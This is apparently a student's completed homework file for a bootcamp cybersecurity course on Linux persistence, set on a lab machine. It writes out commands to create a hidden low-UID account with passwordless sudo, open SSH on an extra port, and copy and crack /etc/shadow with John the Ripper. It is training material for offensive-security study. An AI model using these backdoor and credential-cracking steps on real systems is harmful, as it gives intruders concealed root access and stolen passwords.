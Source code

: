 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    ```
    adduser sysd --no-create-home
    ```


2. Give your secret user a password: 
    - `hack0rz'

3. Give your secret user a system UID < 1000:
    ```
    usermod -u 200 sysd
    ```

4. Give your secret user the same GID:
    ```
    groupmod -g 200 sysd
    ```

5. Give your secret user full `sudo` access without the need for a password:
    ```
    visudo
  
    ```
    - gain access to sudoers file to edit and add the following line:

        - sysd  ALL=(ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:

    ```
    sudo -lU sysd
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
    nano /etc/ssh/sshd_config
    ```
    - once inside the config file, added the following uncommented line under Port 22
        - **Port 2222**
    - also uncommented Port 22 so that both ports are open then configured the firewall to allow port 2222 access to SSH
    ```
    ufw allow 2222/tcp
    ```
    - restarted the sshd service
    ```
     systemctl restart sshd
    ```
    - confirmed status of sshd service
    ```
    systemctl status sshd
    ```
    - confirmed server was not listening on port 22 and port 2222.

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    ```
    systemctl restart sshd
    ```

2. Exit the `root` account:
    ```
    exit
    ```

3. SSH to the target machine using your `sysd` account and port `2222`:
    ```
    ssh sysd@192.168.6.105 -p 2222
    ```

4. Use `sudo` to switch to the root user:
    ```
    sudo su
    ```

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:
    ```
    ssh sysd@192.168.6.105 -p 2222
    ```


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    - escalate priveleges
    ```
    sudo su
    ```
    - once I am root, copied the /etc/shadow file to the tmp directory
    ```
    cat /etc/shadow > /tmp/shadow.txt
    ```
    - Ran john the ripper on the shadow.txt file.
    ```
    john /tmp/shadow.txt
    ```

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

